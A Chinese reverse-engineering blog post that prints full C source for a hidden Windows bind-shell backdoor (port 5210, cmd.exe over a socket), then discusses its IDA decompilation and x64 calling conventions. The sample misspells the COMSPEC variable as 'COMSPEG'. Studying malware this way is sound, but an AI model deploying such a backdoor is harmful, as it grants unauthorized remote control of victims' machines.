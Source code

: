 +++
title = '从正向木马编写看逆向工程'

description = "新手村知识"

tags = [ "技术" ]

date = 2020-11-26T20:11:59+08:00

+++

​	提高样本分析能力，最重要的事情之一就是先正向编写木马。之前简单编译过一个程序，今天搜了一个非常简单的后门，比较一下反编译的结果和源码的区别。

​	源码如下。

```
#pragma comment(lib,"ws2_32.lib")  //这里我们静态加入一个lib文件，也就是ws2_32.lib</font>

#pragma comment(linker,"/subsystem:\"windows\"/entry:\"mainCRTStartup\"") //设置连接器选项

#include <winsock2.h> //包含头文件winsock2.h,这个是 windows socket的头文件

#include <windows.h> //常用的，不解释

#define MasterPort 5210 //定义一个常量，也就是我们后面要打开的端口

main()   //主函数不解释
{
  WSADATA WSADa; //这个结构被用来存储被WSAStartup函数调用后返回的Windows Sockets数据。后面的基本上差不多就不解释，不懂请大家自行百度
  sockaddr_in SockAddrIn; 
  SOCKET CSocket,SSocket;
  int iAddrSize;
  PROCESS_INFORMATION ProcessInfo;
  STARTUPINFO StartupInfo;
  char szCMDPath[255];
  
  //分配内存，初始化数据
  ZeroMemory(&ProcessInfo,sizeof(PROCESS_INFORMATION));
  ZeroMemory(&StartupInfo,sizeof(STARTUPINFO));
  ZeroMemory(&WSADa,sizeof(WSADATA));

  //获取cmd路径
  GetEnvironmentVariable("COMSPEG",szCMDPath,sizeof(szCMDPath));

  //加载ws2_32.dll
  WSAStartup(0x0202,&WSADa);

  //设置本地信息和绑定协议,建立socket,代码如下:
  SockAddrIn.sin_family = AF_INET;
  SockAddrIn.sin_addr.s_addr = INADDR_ANY;
  SockAddrIn.sin_port = htons(MasterPort);
  CSocket = WSASocket(AF_INET,SOCK_STREAM,IPPROTO_TCP,NULL,0,0);

  //设置绑定端口，将SockAddrIn绑定到CSocket。
  bind(CSocket,(sockaddr *)&SockAddrIn,sizeof(SockAddrIn));

  //设置服务器端监听端口
  listen(CSocket,1);
  iAddrSize = sizeof(SockAddrIn);

  //开始连接远程服务器，并配置隐藏窗口结构体
  SSocket = accept(CSocket,(sockaddr *)&SockAddrIn,&iAddrSize);

  StartupInfo.cb = sizeof(STARTUPINFO);

  StartupInfo.wShowWindow = SW_HIDE;
  
  StartupInfo.dwFlags = STARTF_USESTDHANDLES |

  STARTF_USESHOWWINDOW;

  StartupInfo.hStdInput = (HANDLE)SSocket;

  StartupInfo.hStdOutput = (HANDLE)SSocket;

  StartupInfo.hStdError = (HANDLE)SSocket;
  
  //创建匿名管道：

  CreateProcess(NULL, szCMDPath, NULL, NULL, TRUE, 0, NULL, NULL, &StartupInfo, &ProcessInfo);

  WaitForSingleObject(ProcessInfo.hProcess, INFINITE);

  CloseHandle(ProcessInfo.hProcess);

  CloseHandle(ProcessInfo.hThread);

 

  //关闭进程句柄：

  closesocket(CSocket);

  closesocket(SSocket);

  WSACleanup();

    //关闭连接卸载ws2_32.dll

  return 0;

  }
```

实际IDA反编译出来的效果如下：

![](https://pub-f40a9f95639d4cee81dcb09d9b4adf70.r2.dev/blog/2024/12/14579c8d6365d8c8ebbc49c59bfc8563.png)

可以看到反编译的结果，库的导入和局部变量的定义是没有的，应该是编译过程中，在链接操作之前这些就已经执行完成了。

简单来说这个程序的功能就是开放5210端口，并监听。然后把输入重定向到新起cmd进程，并把cmd进程的输出重定向到5210端口。

##### 对64位下传参的测试

![](https://pub-f40a9f95639d4cee81dcb09d9b4adf70.r2.dev/blog/2024/12/4df417ee0c925a50506052e490c72dfa.png)

传4个参数及以下，使用的是寄存器传参，cd89，第一个参数传到c，第二个参数传到d，第三个参数传到8，第四个参数传到9。从顺序上来看，从右往左，先从第四个开始传，再从第三个开始传...(最后三句汇编)。

![](https://pub-f40a9f95639d4cee81dcb09d9b4adf70.r2.dev/blog/2024/12/7cfa50c168c605c3f3c348bc87cc3891.png)

传5个参数及以上，前四个使用寄存器传参，从第五个开始使用堆栈传参(上图是传完了之后的结果，汇编侧可以看到寄存器的使用)。可以看到第五个参数先使用了寄存器将参数从rbp-14h中取出来(寻址方式。反映变化趋势的方面，栈由高地址向低地址生长，参数由低地址向高地址生长。x64dbg的上面是栈顶低地址下面是栈底高地址)。rbp-14h=DCC，实际上一个堆栈存放一段数据，可能是一个参数也可能是两个参数？例如DD0处存放了00000002和00000003。

![](https://pub-f40a9f95639d4cee81dcb09d9b4adf70.r2.dev/blog/2024/12/d8c9290af6a1335497314da67801034c.png)

然后又赋给了rsp+20，最后把eax中存放的第一个参数赋给ecx。

![0880c08b0110ebe3d330](C:\Users\lizhenxin\AppData\Roaming\LanxinSoftCustom\LxResource\Images\0880c08b0110ebe3d330.png)

比较奇怪的是为什么不在栈顶。

## 栈传参 & Shadow Space（影子空间）

- Windows 要求每个函数调用在栈上为前 4 个参数 **预留 32 字节** 的空间，叫做 **shadow space**。
- 不论是否用到了栈，这块空间都要保留（供被调用者在需要时将寄存器值保存到这里）。

📦 结构如下（函数调用前）：

```
less复制编辑High address
+-------------------+
| 参数5（如有）       | ← 栈上传递
| 参数6（如有）       |
+-------------------+
| Shadow Space (32B)| ← 必须保留
| [RCX]             |
| [RDX]             |
| [R8]              |
| [R9]              |
+-------------------+
| Return Address    |
+-------------------+
Low address (RSP)
```
